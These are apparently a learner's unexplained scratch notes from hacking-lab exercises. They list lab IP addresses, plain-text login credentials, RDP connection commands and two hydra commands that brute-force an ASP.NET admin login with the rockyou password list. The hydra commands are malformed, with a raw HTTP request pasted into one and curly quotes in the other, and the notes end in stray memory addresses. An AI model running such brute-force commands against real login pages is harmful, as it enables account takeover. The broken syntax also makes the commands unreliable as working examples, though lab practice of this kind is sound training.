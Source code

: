 IP Address: **10.10.49.23**

Username: **cmnatic**

Password: **yararules!**

SSH Port: **22**

`rdesktop -u username -f IP`

xfreerdp
best rdp soffware


xfreerdp /u:Analysis /p:Tryhackme123! /v:10.10.140.138 
Username: Administrator

Password: BHN2UVw0Q
xfreerdp /u:Administrator /p:BHN2UVw0Q /v:10.10.214.145



http://10.10.180.60/Account/login.aspx?ReturnURL=%2fadmin%2f

hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 
10.10.214.145 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
Host: 10.10.180.60
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 754
Origin: http://10.10.180.60
DNT: 1
Connection: close
Referer: http://10.10.180.60/Account/login.aspx?ReturnURL=%2fadmin%2f
Upgrade-Insecure-Requests: 1

__VIEWSTATE=E5YPEg0DkjC%2B5ayJFm%2FBcd0cqk4g9KD9iZ0vHNNYHDQcaV2PMJz1s05zinB94MMBUS0qRC1pXgEuGVGqGPjaR6%2FMYnR52S9HjZ8n7lAHuT0%2BABYffLk5r%2FqXO6Jdtr7Kr09CFZV5qjTctiVb%2FgGqIVb6aIeeloG093tnWWsiNfd97M8wctRqGPyLXbFGqpwZcJT8fjGomlzV9ZlfHOED40TURbh0NCvPJG2zpb37n8wcXGrBJPc5nZLI5PI9ayl3WT%2B%2FUk5fKv7A9kvT4A8rUxCAID9QPPcmlozPwntjdbXy2vjWiD4jgrBUOvnarg%2FW%2BH9vsQTtUWrJf2tfDO5BBBa9xP4O6yY4E0tWbBfpS96sLN8q&__EVENTVALIDATION=ePsk74eOlQvDKNJ5KrhTGuoeZ0FPm2aD4QMx7BXsr22%2FHnU%2FBTCT2wv2oUo7edqq2tZd1j%2FMyMEyZo1FhKVpCxq%2BEWHipYNWVlCq7QaIBP1UFy8yKa27j%2FGRIB0arrkjRZyKgZd4vmXSoc498hBOfrMjfu1w2yomnnC6YuOGWb5Di2GB&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^www^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in"


hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 10.10.214.145 "/http-post-form “/Account/login.aspx:__VIEWSTATE=X%2Fz3Mlty62z5Y8aCAMiDaFe%2B9SKdcf9226N9xQ01mq8rP30ZJRq5G7EwUwzkz3n9rzEXVYmhE%2BBRVjtKpusOG%2BclmdkWeaN46I%2FnUYO4uzqLV1jka6wmsfIKFhEdwy3oeh7DlUj8VUnfKjmAAhl6QNzNfhdXj13D13LFPh9wtvnHyBjYmqMzxEvWAL1mwoNVWxVTCra5DFu1l1gLSNfWkrXLzo7bQdYCnhV2xxpLa1JgaLGsxDUS3h25czmU7g3MCciYGEAgFFxv%2FATyhDiIQBlHJ154WMYnL52cM7MR81pZZNgK32WdRwy%2FvA2wQvi6YrjkLrEZsiepbdoKvQHZ6qqyPxH0j6K9BI3%2FlKKiT2cfS1Nm&__EVENTVALIDATION=tbMSuN0fZZiffwoWR2502NvWLKSDwmGhtVGh9KB%2FIf6hdNVf9UjamY4uMbjjKFAInyLeK%2Fz5%2ByO1yrvO44pVUZTCisUdcMS2k59fRgxCJ9mU9waI%2BiHVLyhzWS22LViSMdGRUhHURt84Cg9MNCxXY172nJrVA5WtJ7PavxhpRlqV8Wi3&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed” -t 64



0x8049208

0xffffce0c 
0xffffce0c 

0xffffce3c




